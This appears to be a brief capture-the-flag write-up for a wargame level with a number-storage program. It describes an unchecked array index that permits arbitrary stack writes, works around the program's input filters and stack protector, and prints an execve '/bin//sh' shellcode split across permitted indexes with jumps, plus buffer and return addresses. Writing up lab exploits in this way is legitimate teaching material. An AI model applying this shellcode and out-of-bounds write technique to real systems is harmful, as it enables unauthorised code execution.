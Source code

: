 The program is a number storage service. We can store numbers, read the stored numbers, or quit. Looking at the [source code](../source.c) in more detail, we notice that there is no check of the index where we save our numbers in the store_number() function. Therefore, we can write almost anywhere we want on the stack. We'll be able to exploit that, but we'll have to deal with some limitations: 

* First of all, concerning the registration of numbers in the dataset:
** numbers are stored at index * 4
** index % 3 must not be equal to 0
** number >> 24 must not be equal to 183 

* The program has been compiled with the flag "-fstack-protector" which protects the return address of the program's main() function.

* At the beginning of the program, `av` and `env` are cleared and therefore cannot be used to store shellcode in memory. 




Let's start by finding the buffer address in the store_number() function:

esp: 0xffffd520
buf dans main: 0x24(%esp) <=> 0xffffd544

"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"



index N     : "\x31\xc9\xf7\xe1"
index N+1   : "\xb0\x0b" + jump
index N+3   : "\x51\x68\x2f\x2f"
index N+4   : "\x73\x68" + jump
index N+6   : "\x68\x2f\x62\x69"
index N+7   : "\x6e\x89" + jump
index N+9   : "\xe3\xcd\x80"



buf:                    0xffffd544

eip in read_number():   0x8048930




We can now reach the next level with the command `su level08` and fill in the flag found as a password.